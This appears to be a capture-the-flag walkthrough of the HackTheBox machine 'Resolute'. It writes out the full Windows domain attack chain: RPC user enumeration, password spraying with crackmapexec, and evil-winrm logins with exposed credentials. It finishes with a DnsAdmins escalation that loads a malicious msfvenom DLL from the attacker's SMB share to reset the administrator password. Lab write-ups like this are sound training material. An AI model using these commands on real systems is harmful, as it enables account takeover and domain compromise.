

# Introdution

[https://app.hackthebox.com/machines/Resolute](https://app.hackthebox.com/machines/Resolute)

This is a medium box Windows. We starts enum users through RPC, where It was found a users list. Also It was found a password. Then It is done a Password Spray that allow to find melanie credential. Into in box, we discovered the ryan user credential. He is part of the DnsAdmins group, this group usually has elevated privilege. We explored this and get the Administrator shell.

**Have a good time!**

## Diagram



# Enumeration

First step is to enumerate the box. For this we’ll use `nmap`.

```bash
ports=$(sudo nmap -p- -Pn --min-rate=1000 -T4 10.10.10.169 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) && sudo nmap -sC -sV -Pn -p $ports 10.10.10.169
```


## **Port 445 (RPC)**

- `rpcclient -U "" -N 10.10.10.169`
    
    ```bash
    enumdomusers
    ```
    
    
    
    I can get information about the users one by one with `queryuser`:
    
    ```bash
    queryuser 0x1f4
    ```
    
    
    
    I can also get less information about all users with `querydispinfo`:
    
    ```bash
    querydispinfo
    ```
    
    
    
    We found a password in clear: **Welcome123!**
    

# Exploration

**Password Spray**

With the clear password found (**Welcome123!**), we’ll do a Password Spray with the users found.

```bash
crackmapexec smb 10.10.10.169 -u users -p 'Welcome123!' --continue-on-success
```


We can login in SMB through credential:

> User :**melanie**
> 
> Pass: **Welcome123!**


```bash
evil-winrm -i 10.10.10.169 -P 5985 -u melanie -p 'Welcome123!'
```


**HABEMUS SHELL!!!**

# Post Exploration

## Melanie → Ryan

A hidden file was found that revelate a credential of **ryan** user.

> User: **ryan
> 
> Pass: Serv3r4Admin4cc123!**
> 

```bash
ls -force
```


`C:\PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt`


```bash
evil-winrm -i 10.10.10.169 -P 5985 -u ryan -p 'Serv3r4Admin4cc123!'
```

## Ryan → Administrator

### DNSAdmins

```bash
whoami /groups
```


We verified that the ryan user is part of the DnsAdmins group, this group usually has elevated privilege. Then we’ll use the dnscmd.exe to execute commands with SYSTEM. The dnscmd will do that the target download an evil DLL into my KALI and run it as a DNS service plugin.

```bash
# Payload DLL
	msfvenom -p windows/x64/exec cmd='net user administrator Senha#123! /domain' -f dll -o perverse.dll

# Smb Server
	impacket-smbserver share . -smb2support

# In target, download it and run a DLL.
	cmd /c dnscmd localhost /config /serverlevelplugindll \\10.10.14.7\share\perverse.dll
	sc.exe stop dns
	sc.exe start dns

# After Administrator password changed, login it.
	impacket-psexec megabank.local/administrator@10.10.10.169
```


**HABEMUS ROOT!!!**